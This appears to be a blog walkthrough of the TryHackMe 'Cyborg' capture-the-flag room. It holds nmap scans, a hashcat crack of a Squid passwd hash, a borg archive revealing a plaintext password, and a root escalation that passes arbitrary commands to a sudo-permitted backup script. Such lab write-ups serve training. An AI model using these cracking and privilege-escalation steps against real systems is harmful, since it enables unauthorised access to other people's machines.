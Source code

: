 ```yaml
---
layout: post
title: Walkthrough - Cyborg	
published: true
---
```


A box involving encrypted archives, source code analysis and more.

[https://tryhackme.com/room/cyborgt8](https://tryhackme.com/room/cyborgt8)

* * *

## Scan the machine, how many ports are open?

- ``sudo nmap -T4 -F 10.10.173.237``

* * *

## What service is running on port 22?

- ``sudo nmap -sV -sT -p22,80 10.10.173.237``

* * *

## What service is running on port 80?

- ``sudo nmap -sV -sT -p22,80 10.10.173.237``

* * *

## What is the user.txt flag?

In ``/etc/squid`` found a passwd file with an MD5 (APR) hash - cracked ``hashcat -m 1600 music_archive.hash /usr/share/seclists/Passwords/rockyou.txt`` - squidward

- Website is running Squid Proxy?
- Downloaded archive from ``/admin/`` and extract
- this is a borg archive hence cyborg, so can install borg and extract
- ``borg extract final_archive::music_archive`` with the pass we got 

```shell
┌──(0xskar㉿cocokali)-[~/…/dev/home/alex/Documents]
└─$ cat note.txt   
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

* * *

## What is the root.txt flag?

```shell
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

- backup.sh isnt writable. but checking out the script we can pass it commands.
- ``sudo /etc/mp3backups/backup.sh -c 'ls -las /root'`` 
- ``sudo /etc/mp3backups/backup.sh -c 'cat /root/root.txt'``

* * * 
